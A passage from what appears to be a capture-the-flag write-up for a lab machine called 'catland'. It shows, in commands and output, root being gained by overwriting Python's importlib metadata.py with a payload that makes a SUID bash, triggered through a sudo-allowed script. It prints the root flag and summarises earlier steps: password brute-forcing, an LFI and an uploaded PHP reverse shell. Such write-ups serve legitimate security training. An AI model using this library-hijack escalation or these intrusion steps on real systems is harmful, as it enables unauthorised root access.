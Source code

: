I overwrote `metadata.py` with a malicious payload to create a SUID root shell:

```shellscript
laura@catland:/usr/lib/python3.9/importlib$ cat << 'EOF' > metadata.py
> import os
> os.system("cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash")
> EOF
```

Now, when `sudo /usr/bin/rtv --help` is executed, the `rtv` script will import `importlib.metadata`, which will execute my malicious code.

```shellscript
laura@catland:/usr/lib/python3.9/importlib$ sudo /usr/bin/rtv --help
# ... (rtv help output) ...
```

After executing the `sudo` command, I checked `/tmp` for the `rootbash` binary:

```shellscript
laura@catland:/usr/lib/python3.9/importlib$ ls -la /tmp
# ... (truncated output) ...
-rwsr-xr-x  1 root root 1234376 Jul 24 02:00 rootbash
# ... (truncated output) ...
```

The `rootbash` binary was successfully created with SUID permissions. I executed it to get a root shell:

```shellscript
laura@catland:/usr/lib/python3.9/importlib$ /tmp/rootbash -p
rootbash-5.1# id
uid=1001(laura) gid=1001(laura) euid=0(root) groups=1001(laura)
```

I obtained a root shell! Finally, I navigated to `/root` and retrieved the root flag.

```shellscript
rootbash-5.1# cd /root
rootbash-5.1# ls
root.txt
rootbash-5.1# cat root.txt
ca555fc5afb4475bb0878d2b1a76cbe9
```

The root flag is `ca555fc5afb4475bb0878d2b1a76cbe9`.

### Summary of Attack Path:

1. **Reconnaissance:** Identified open SSH and Apache services.
2. **Web Enumeration:** Discovered the `admin.catland.hmv` virtual host and potential username "laura" from image names.
3. **Credential Generation & Brute-forcing (Web Panel):** Used `cupp` to create a targeted wordlist and `hydra` to brute-force the admin login, finding `laura:Laura_2008` for the web panel.
4. **Gaining Initial Shell (www-data):**

1. Identified an LFI vulnerability in `user.php`.
2. Uploaded a PHP reverse shell to the `/uploads` directory.
3. Triggered the reverse shell via LFI to get a `www-data` shell.
